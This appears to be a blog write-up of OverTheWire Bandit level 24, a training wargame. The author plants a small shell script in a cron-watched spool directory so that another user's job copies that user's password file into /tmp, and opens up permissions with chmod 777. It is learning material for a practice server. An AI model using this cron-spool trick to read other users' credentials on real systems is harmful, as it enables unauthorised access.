 ```yaml
---
layout: post
date:   2021-04-09 10:20:00 +0100
categories: OverTheWire Bandit
---
```


# Level goal
```bash
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Commands you may need to solve this level

cron, crontab, crontab(5) (use “man 5 crontab” to access this)
```

## Lets look in that folder again and look at what the bandit24 job does..

```bash
bandit23@bandit:/tmp/zd23$ cd /etc/cron.d/
bandit23@bandit:/etc/cron.d$ ls
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

## Lets open that script and take a look

```bash
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

## So, it looks like we need to create a script, put it in the /var/spool/bandit24 folder. Guessing because there's nothing there we need to get the bandit24 password from the /etc/bandit_pass directory (/etc/bandit_pass/bandit24)

## Lets create a tmp directory and a script
```bash
bandit23@bandit:~$ mkdir /tmp/zd23
bandit23@bandit:~$ cd /tmp/zd23
bandit23@bandit:/tmp/zd23$ vi script.sh
```

```bash
#!/bin/sh
cat /etc/bandit_pass/bandit24 >> /tmp/zd23/beep
```

## Lets make it executable
```bash
bandit23@bandit:/tmp/zd23$ chmod 777 script.sh
bandit23@bandit:/tmp/zd23$ ls -ls
total 4
4 -rwxrwxrwx 1 bandit23 root 52 Apr  9 12:21 script.sh
```

## Lets copy it to the spool directory and see what happens

```bash
bandit23@bandit:/tmp/zd23$ cp script.sh /var/spool/bandit24
# An eternity laster..
bandit23@bandit:/tmp/zd23$ ls
beep  script.sh
bandit23@bandit:/tmp/zd23$ cat beep
redacted
```

## Okay - So nothing actually happened for ages, had to do some googling. Had to actually give the /tmp/zd23 folder permissions to be written to.. It then worked (777 all the things)

VICTORY.

## The password for level 24: 	

redacted

On the next episode of Bandit...

```bash
ssh bandit24@localhost
redacted
```